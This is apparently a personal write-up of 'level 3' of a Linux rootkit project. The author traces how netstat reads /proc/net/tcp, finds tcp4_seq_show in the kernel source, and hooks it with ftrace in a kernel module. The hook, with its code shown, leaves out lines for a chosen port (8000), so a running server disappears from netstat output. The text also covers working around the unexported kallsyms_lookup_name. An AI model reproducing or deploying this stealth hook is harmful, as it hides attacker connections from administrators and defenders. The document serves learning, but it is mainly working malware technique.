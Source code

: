 # level 3

from strace'ing netstat, it seems that the data comes from reading and parsing /proc/net/tcp file.

```
cat /proc/net/tcp
  sl  local_address rem_address   st tx_queue rx_queue tr tm->when retrnsmt   uid  timeout inode                                                     
   0: 00000000:1F40 00000000:0000 0A 00000000:00000000 00:00000000 00000000  1000        0 251662 1 0000000000000000 100 0 0 10 0                    
   1: 0100007F:0277 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 40139 1 0000000000000000 100 0 0 10 0                     
   2: 3500007F:0035 00000000:0000 0A 00000000:00000000 00:00000000 00000000   101        0 36619 1 0000000000000000 100 0 0 10 5                     
   3: 803AA8C0:D062 95F1BDCE:01BB 01 00000000:00000000 00:00000000 00000000  1000        0 186237 1 0000000000000000 20 4 28 10 -1                   
   4: 803AA8C0:C0E6 B3AF2734:01BB 01 00000000:00000000 02:000051DD 00000000  1000        0 69620 2 0000000000000000 20 4 28 10 -1                    
   5: 803AA8C0:DE52 1121E32C:01BB 08 00000000:0000004E 02:00001147 00000000  1000        0 88197 2 0000000000000000 68 4 0 10 -1                     
   6: 803AA8C0:8EFE EFED7522:01BB 01 00000000:00000000 00:00000000 00000000  1000        0 257294 1 0000000000000000 22 4 30 10 -1

```

this^ is while having a python httpserver on port 8000.

```
openat(AT_FDCWD, "/proc/net/tcp", O_RDONLY) = 3
read(3, "  sl  local_address rem_address "..., 4096) = 1050

```

I can think of an option of how to solve this from here with syscall hooking:

hook the read syscall, and check if the opened file is /proc/net/tcp. if it is, remove the server line from the output.

- this will be complicated because if we hook the read function we only have an fd, not filename, and we will have to backtrack what the filename is.
- checking all the read outputs without checking if its relevant to us might have performance issues since read is a very common syscall in linux



both of the above options seem complicated to implement.

[this blog](https://xcellerator.github.io/posts/linux_rootkits_08/) reminded me that /proc is a virtual FS and not a real one, which means every read from it is actually outputted from a function in the kernel.

```bash
cat /proc/net/tcp
sl  local_address rem_address   st tx_queue rx_queue tr tm->when retrnsmt   uid  timeout inode ....
										.....snipped.....
```

I saw this print format, and decided to grep it in the linux kernel sources.

```bash
 grep rem_address -irnI .
 /net/ipv4/tcp_ipv4.c:2655:             seq_puts(seq, "  sl  local_address rem_address   st tx_queue "
./net/ipv4/ping.c:1146:         seq_puts(seq, "  sl  local_address rem_address   st tx_queue "
./net/ipv4/raw.c:1073:          seq_printf(seq, "  sl  local_address rem_address   st tx_queue "
./net/ipv4/udp.c:3094:          seq_puts(seq, "   sl  local_address rem_address   st tx_queue "

```

seems like the relevant one is /net/ipv4/tcp_ipv4.c

```c
static int tcp4_seq_show(struct seq_file *seq, void *v)
{
	struct tcp_iter_state *st;
	struct sock *sk = v;

	seq_setwidth(seq, TMPSZ - 1);
	if (v == SEQ_START_TOKEN) {
		seq_puts(seq, "  sl  local_address rem_address   st tx_queue "
			   "rx_queue tr tm->when retrnsmt   uid  timeout "
			   "inode");
		goto out;
	}
	st = seq->private;

	if (sk->sk_state == TCP_TIME_WAIT)
		get_timewait4_sock(v, seq, st->num);
	else if (sk->sk_state == TCP_NEW_SYN_RECV)
		get_openreq4(v, seq, st->num);
	else
		get_tcp4_sock(v, seq, st->num);
out:
	seq_pad(seq, '\n');
	return 0;
}
```

seems like this function is called for every line of output. if I hook it and make sure it doesn't print out the line with my chosen port, then I can effectively hide it.

```c
static void get_tcp4_sock(struct sock *sk, struct seq_file *f, int i)
{
	int timer_active;
	unsigned long timer_expires;
	const struct tcp_sock *tp = tcp_sk(sk);
	const struct inet_connection_sock *icsk = inet_csk(sk);
	const struct inet_sock *inet = inet_sk(sk);
	const struct fastopen_queue *fastopenq = &icsk->icsk_accept_queue.fastopenq;
	__e32 dest = inet->inet_daddr;
	__be32 src = inet->inet_rcv_saddr;
	__u16 destp = ntohs(inet->inet_dport);
	__u16 srcp = ntohs(inet->inet_sport);
	int rx_queue;
	int state;

	if (icsk->icsk_pending == ICSK_TIME_RETRANS ||
	    icsk->icsk_pending == ICSK_TIME_REO_TIMEOUT ||
	    icsk->icsk_pending == ICSK_TIME_LOSS_PROBE) {
		timer_active	= 1;
		timer_expires	= icsk->icsk_timeout;
	} else if (icsk->icsk_pending == ICSK_TIME_PROBE0) {
		timer_active	= 4;
		timer_expires	= icsk->icsk_timeout;
	} else if (timer_pending(&sk->sk_timer)) {
		timer_active	= 2;
		timer_expires	= sk->sk_timer.expires;
	} else {
		timer_active	= 0;
		timer_expires = jiffies;
	}

	state = inet_sk_state_load(sk);
	if (state == TCP_LISTEN)
		rx_queue = READ_ONCE(sk->sk_ack_backlog);
	else
		/* Because we don't lock the socket,
		 * we might find a transient negative value.
		 */
		rx_queue = max_t(int, READ_ONCE(tp->rcv_nxt) -
				      READ_ONCE(tp->copied_seq), 0);

	seq_printf(f, "%4d: %08X:%04X %08X:%04X %02X %08X:%08X %02X:%08lX "
			"%08X %5u %8d %lu %d %pK %lu %lu %u %u %d",
		i, src, srcp, dest, destp, state,
		READ_ONCE(tp->write_seq) - tp->snd_una,
		rx_queue,
		timer_active,
		jiffies_delta_to_clock_t(timer_expires - jiffies),
		icsk->icsk_retransmits,
		from_kuid_munged(seq_user_ns(f), sock_i_uid(sk)),
		icsk->icsk_probes_out,
		sock_i_ino(sk),
		refcount_read(&sk->sk_refcnt), sk,
		jiffies_to_clock_t(icsk->icsk_rto),
		jiffies_to_clock_t(icsk->icsk_ack.ato),
		(icsk->icsk_ack.quick << 1) | inet_csk_in_pingpong_mode(sk),
		tcp_snd_cwnd(tp),
		state == TCP_LISTEN ?
		    fastopenq->max_qlen :
		    (tcp_in_initial_slowstart(tp) ? -1 : tp->snd_ssthresh));
}
```

from here ^ I can see that it is going to be pretty easy, we just need to create an inet_sock from the socket buffer like here:

```c
	const struct inet_sock *inet = inet_sk(sk);
	if(srcp ==  my_rootkit_port){
        //do_bad_stuff
    }
```

and hook this logic before tcp4_seq_show output is called.



I will be using ftrace to hook the function. 
I wanted to use the helper module [this dude wrote](https://gist.github.com/xcellerator/ac2c039a6bbd7782106218298f5e5ac1#file-ftrace_helper-h), but it didn't go so well, because in my kernel the C api changed- mostly names of structs and enums- this was easy enough to fix, but also because he relies on kallsyms_lookup_name function being exported, which it isn't in my kernel, so I need to solve it.

This is mostly a technical issue since I already dealt with it in my lkm code, but I need to give it to the helper as well.

Perhaps I need to put it in a seperate header file and include it in both the module and the helper.

did it and now it works.



currently stuck in a situation where the process of hooking with ftrace somehow crashes the kernel, and i'm unable to debug it properly.

I should properly step up my debug game- printk is not enough and doesn't help at all in the case of crashes.





I've decided its better to write every step of the rootkit in a seperate module, for better debugging.

when I seperated it into 2 files it suddenly worked- no idea what happened here, but it seems I entered a rabbit hole of debugging it.

since all that these functions do is print stuff, I feel comfortable messsing them up and making them not print the line with my server. every call to the function is returning one line, and it returns 0 if it succeeds, so no harm in returning early and printing an empty line if it contains our intended source port.

```c
inet = inet_sk(sk);
	srcp = ntohs(inet->inet_sport);
	if (srcp == 8000){
		printk(KERN_INFO "netstat_rootkit: identified tcp traffic to port 8000\n");
		seq_puts(seq, "");
		return 0;
	}
	return old_tcp4_seq_show(seq, v);
```

now netstat -ant doesn't show my server.



and thats level 3 done.

